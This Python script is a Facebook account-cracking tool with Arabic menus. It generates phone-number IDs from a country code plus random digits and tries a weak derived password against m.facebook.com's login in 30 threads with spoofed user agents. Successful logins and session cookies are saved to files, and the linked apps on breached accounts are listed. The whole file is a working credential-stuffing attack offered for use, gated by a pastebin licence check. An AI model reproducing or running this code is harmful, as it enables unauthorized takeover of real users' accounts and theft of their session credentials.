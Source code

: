273 sloc)  11.1 KB
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
import os,sys,time,json,random,re,string,platform,base64,platform,uuid
import marshal
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
    os.system('python DAMAR.py')
from bs4 import BeautifulSoup
def subc():
   uuid=str(os.geteuid())+str(os.getlogin())
   id="|".join(uuid)
   ses=requests.get("https://pastebin.com/wVPwPua2").text
   if id in ses:
   	pass
   else:
   	print("Your Id "+id)
   	print('---------@Ahmed689---------')
   	sys.exit()
subc()

print('---------@Ahmed689---------')
#𝐌𝐀𝐑𝐖𝐀𝐍
print('\n')
ugen = []
A = '\x1b[1;97m' 
B = '\x1b[1;96m' 
C = '\x1b[1;91m' 
D = '\x1b[1;92m'
M = '\033[1;31m'
H = '\033[1;32m'
N = '\x1b[1;37m'    
E = '\x1b[1;93m' 
F = '\x1b[1;94m'
G = '\x1b[1;95m'
P = '\033[1;37m'
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m'
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
LUQMAN = '{ LUQMAN }'
for xd in range(10000):
    a='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
try:
    os.system('curl https://bacho1001.blogspot.com/2022/07/ua.html -o ua.html')
except:
    pass
sock=open('ua.html','r').read().splitlines()
def uaku():
    try:
        ua=open('bbnew.txt','r').read().splitlines()
        for ub in ua:
            ugen.append(ub)
    except:
        a=requests.get('https://bacho1001.blogspot.com/2022/07/ua.html').text
        ua=open('.user-agents.txt','w')
        aa=re.findall('line">(.*?)<',str(a))
        for un in aa:
            ua.write(un+'\n')
        ua=open('.user-agents.txt','r').read().splitlines()
loop = 0
cps = []
oks = []
twf = []
os.system('https://instagram.com/9_v7t?igshid=YmMyMTA2M2Y=')
os.system('https://instagram.com/9_v7t?igshid=YmMyMTA2M2Y=')

def clear():
    os.system('clear')
    print(logo)

logo = """
\033[1;91m
\033[1;91m    
\033[1;32m      
\033[1;35m      
\033[1;34m      
  AUTHOR : A.DADI 
  INSTAGRAM : Mar726wan
  GITHUB : SKRT99
   TELEGRAM : Ahmed689
  TOOL STATUS : phone                            
\033[1;91m=========================================================="""






def linex():
    print(f'{GREEN}==========================================================')
def checks(oks,cps,twf):
    if not len(oks) != 0:
        pass
    if len(cps) != 0:
        print('\n\n\x1b[1;97m TOTAL  OK : \x1b[1;97m %s  \x1b[1;97mDAMAR-OK.txt' % (
            H, P, str(len(oks))))
        print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mDAMAR-CP.txt' %
              (H, P, str(len(cps))))
        print('\x1b[1;97m TOTAL 2F :\x1b[1;97m   %s \x1b[1;97mDAMAR-2F.txt' %
              (H, P, str(len(twf))))
        input("\x1b[1;97mPRESE ENTER TO BACK xyz  ")
        xyz()
loop = 0
cps = []
oks = []
twf = []
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE  APKS 🎮%s  '%(ORANGE))
    else:
        print(f'\r {GREEN}[√] %sYOUR ACTIVE APPLICATION DETAILS :'%(GREEN))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS 🎮%s'%(ORANGE))
    else:
        print(f'\r 🎮  %{RED}sYOUR EXPIRED APKS DETAILS :'%(RED))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N))
            print(f"{GREEN}[√]---------------------------------------------------[√]")
    #____________#
def xyz():
    os.system("play-audio WELCOME_TO_A.DADI_BOOT_818.mp3")
    os.getuid
    os.system("clear");print(logo)
    print('           \x1b[97m[\033[37;41m  M A I N   M E N U   \033[0;m] ')
    print(f"")
    print(f"{BLUE}[01] {GREEN} فحص عشوائي  سريع جدا")
    print(f"{BLUE}[00] {GREEN} الخروج من الاداة ")
    print(f"")
    print(f"\033[1;91m========================================================")
    LUQMAN = input("[√] اختار : ")
    if LUQMAN in ["1","01"]:
        Tabii()
    elif LUQMAN in ["0","00"]:
       exit()
    else:
        print('\033[1;31mINCORECT OPTION!\033[1;31m')
        xyz()

#_____________#

#_____________________#

def Tabii():
    user=[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f"")
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :👇\033[0;m]")
    print(f"")
    print(' اختار كود دولتك او اي كود تحبه')
    print(f"")
    linex()
    code = input(' ادخل الكود الذي تريده : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  اختر عدد الفحص   \033[0;m]")
    print(f"")
    limit = int(input(' مثال: 1000, 2000, 5000, 10000\n\n ادخل العدد المطلوب: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:    
        clear()
        tl = str(len(user))
        print(f" {BLUE}اجمالي الايديات: {GREEN}"+tl)
        print(f" {BLUE}البلد الذي خرجت منه الاداة: {GREEN}libya ")
        print(f" {BLUE}الكود الذي اخترته{GREEN}"+code)
        print(f" {BLUE}لقد بدء الفحص انتظر ثانية")
        print(f'{GREEN}===========================================================')
        for love in user:
            uid = code+love
            pwx = [love]
            yaari.submit(free,uid,pwx,tl)
def free(uid,pwx,tl):
    global loop
    global oks
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://m.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'m.facebook.com',
            'method': 'POST',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101"',
            'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent':pro}
            lo = session.post('https://m.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\033[1;32m[√]---------------------[DAMAR-OK]--------------------[√]\nالرقم : '+uid+'\nالايدي   : '+cid+' √ '+ps+ '\nCOOKIE   : '+coki+'\n[√]---------------------------------------------------[√]')
                cek_apk(session,coki)
                open('/sdcard/DAMAR-OK.txt', 'a').write(cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[24:39]
                Red = '\033[1;31m'
                print(f'\r{Red}[×]--------------------[DAMAR-CP]---------------------[×]\nالرقم : '+uid+'\nالايدي   : '+cid+' √ '+ps+ '\n[×]---------------------------------------------------[×]\033[1;97m')
                open('/sdcard/DAMAR-CP.txt', 'a').write(cid+' | '+ps+'\n')
                cps.append(cid)
                break
            elif '/x/checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[7:22]
                Red = '\033[1;31m'
                print(f'\r{YELLOW}[TEMP-LOCK] '+cid+' | '+ps+'\033[1;97m')
                open('/sdcard/DAMAR-2F.txt', 'a').write(cid+' | '+ps+'\n')
                twf.append(cid)
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[DAMAR ] [%s]\33[1;97m [OK:%s~CP:%s]'%(loop,len(oks),len(cps))), 
        sys.stdout.flush()
        checks(oks,cps,twf)
    except:
        pass



if __name__ == '__main__':
    xyz()
